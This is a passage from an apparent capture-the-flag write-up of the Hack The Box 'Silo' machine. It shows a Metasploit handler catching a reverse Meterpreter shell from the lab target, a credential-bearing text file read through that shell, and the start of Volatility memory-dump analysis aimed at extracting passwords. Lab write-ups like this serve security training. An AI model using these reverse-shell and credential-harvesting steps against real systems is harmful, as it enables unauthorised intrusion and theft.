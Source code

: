 {% highlight zsh %}
╭─[~/APOLO/Ethic4l-Hacking/Operations/Silo/ODAT]─[root@Arthorias]─[0]─[4438]
╰─[:)] # msfconsole
msf5 exploit(multi/handler) > set LHOST 10.10.14.110
LHOST => 10.10.14.110
msf5 exploit(multi/handler) > set LPORT 443
LPORT => 443
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.14.110:443 
[*] Meterpreter session 1 opened (10.10.14.110:443 -> 10.10.10.82:49177) at 2019-10-03 21:43:08 

Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv> whoami
whoami
iis apppool\defaultapppool
{% endhighlight %}

Ready, we have got a Shell and with it we can execute commands on the server. 

# Privilege Escalation
As you can see, there’s a file named “Oracle issue.txt” in Desktop directory. This might contain a clue for our privilege escalation vector.  

{% highlight bash %}
C:\Users\Phineas\Desktop> type "Oracle issue.txt"
type "Oracle issue.txt"
Support vendor engaged to troubleshoot Windows / Oracle performance issue (full memory dump requested):

Dropbox link provided to vendor (and password under separate cover).

Dropbox link 
https://www.dropbox.com/sh/69skryzfszb7elq/AADZnQEbbqDoIf5L2d0PBxENa?dl=0

link password:
£%Hm8646uC$
{% endhighlight %}

The text file mentions a memory dump. That’s a good sign for us, because there’s a high chance that that memory dump will contain valuable information. Many tools will analyze memory for us and pull out valuables like passwords. So it’s quite clear we need to do a bit of memory analysis.  
After downloading the zip file, we unzip it and find that it contains a memory dump. We use volatility tool to investigate the dump.  

# Using Volatility to extract passwords

After downloading the memory dump, we can use volatility on it to perform forensics. Volatility is built-in to Kali so there’s no need to do further installation. If you’re not familiar with volatility, you can check out this cheatsheet from Volatility Foundation and this [cheatsheet](https://digital-forensics.sans.org/media/volatility-memory-forensics-cheat-sheet.pdf) from SANS.  
For the initial step, we would need to identify the OS version of the machine were the memory dump was taken in order for the volatility plugins to be accurate. Although we can simply issue a systeminfo command on our shell session, we can also identify this by using a volatility plugin called imageinfo.  
